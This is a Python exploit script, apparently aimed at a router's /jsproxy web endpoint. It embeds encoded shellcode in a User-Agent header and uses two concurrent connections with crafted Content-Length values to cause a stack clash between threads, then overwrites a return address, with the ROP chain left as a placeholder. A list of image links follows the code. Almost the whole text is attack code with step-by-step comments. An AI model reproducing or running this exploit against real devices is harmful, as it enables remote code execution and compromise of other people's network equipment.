 ```python
shellcode =  ""
shellcode += "\xbb\xc8\xd7\xb2\x5c\xdb\xde\xd9\x74\x24\xf4\x58"
shellcode += "\x33\xc9\xb1\x12\x31\x58\x12\x03\x58\x12\x83\x08"
shellcode += "\xd3\x50\xa9\xb9\x07\x63\xb1\xea\xf4\xdf\x5c\x0e"
shellcode += "\x72\x3e\x10\x68\x49\x41\xc2\x2d\xe1\x7d\x28\x4d"
shellcode += "\x48\xfb\x4b\x25\x8b\x53\x93\xd0\x63\xa6\xe4\x0b"
shellcode += "\x28\x2f\x05\x9b\xb6\x7f\x97\x88\x85\x83\x9e\xcf"
shellcode += "\x27\x03\xf2\x67\xd6\x2b\x80\x1f\x4e\x1b\x49\xbd"
shellcode += "\xe7\xea\x76\x13\xab\x65\x99\x23\x40\xbb\xda"

def p32(x):
    return struct.pack('I', x)

def makeHeader(num):
    header = b""
    header += b"POST /jsproxy HTTP/1.1\r\n"
    header += b"User-Agent: " + bytes(shellcode, 'latin') + b"\r\n"
    header += b"Content-Length: " + bytes(str(num), 'ascii') + b"\r\n\r\n"
    return header

def makeSocket(ip, port):
    s = socket.socket()
    try:
        s.connect((ip, port))
    except:
        print("Error connecting to socket")
        sys.exit(-1)
    print("Connected")
    time.sleep(0.5)
    return s

def socketSend(s, data):
    try:
        s.send(data)
    except:
        print("Error sending data")
        sys.exit(-1)
    print("Sent")
    time.sleep(0.5)

def stackClash(ip):
    # 1) Start 2 threads
    # open 2 socket so 2 threads are created
    s1 = makeSocket(ip, 80) # socket 1, thread A
    s2 = makeSocket(ip, 80) # socket 2, thread B

    # 2) Stack Clash
    # 2.1) send post header with Content-Length 0x20900 to socket 1 (thread A)
    socketSend(s1, makeHeader(0x20900)) # thanks to alloca, the Stack Pointer of thread A will point inside the stack frame of thread B (the post_data buffer will start from here)

    # 2.2) send 0x700-0x14 bytes as post data to socket 1 (thread A)
    socketSend(s1, b'A'*(0x700-20)) # increase the post_data buffer pointer of thread A to a position where a return address of thread B will be saved

    # 2.3) send post header with Content-Length 0x200 to socket 2 (thread B)
    socketSend(s2, makeHeader(0x200)) # thanks to alloca, the Stack Pointer of thread B will point where post_data buffer pointer of thread A is positioned

    # 3) Send ROP chain
    # send 4 byte to socket 1 (thread A) to overwrite a return address of a function in thread B
    # socketSend(s1, struct.pack('<L', 0x13371337)) # [ROP chain addresses start here]
    # add here your ROP chain addresses
```

[1]: https://wx2.sinaimg.cn/large/ee2fecafly1g4tsndeooyj20km0b5wf3.jpg
[2]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsndoj2tj20o60a1q4m.jpg
[3]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsndz8r2j20o506o75d.jpg
[4]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsneaullj20pq0dk40z.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsneora6j20pn0cfjtj.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnf5kk4j20l80b33z8.jpg
[7]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsnfifx7j211s0gctda.jpg
[8]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsnfu1u7j20ru0ghta8.jpg
[9]: https://wx3.sinaimg.cn/large/ee2fecafly1g4tsng4r69j20jk0x2dhe.jpg
[10]: https://wx4.sinaimg.cn/large/ee2fecafly1g4tsngf6nvj20k004y3ys.jpg
[11]: https://wx2.sinaimg.cn/large/ee2fecafly1g4tsngq46mj20no0ch752.jpg
[12]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnh82qpj20mn0b2gn9.jpg
[13]: https://wx1.sinaimg.cn/large/ee2fecafly1g4tsnhjn6cj20ku091wg2.jpg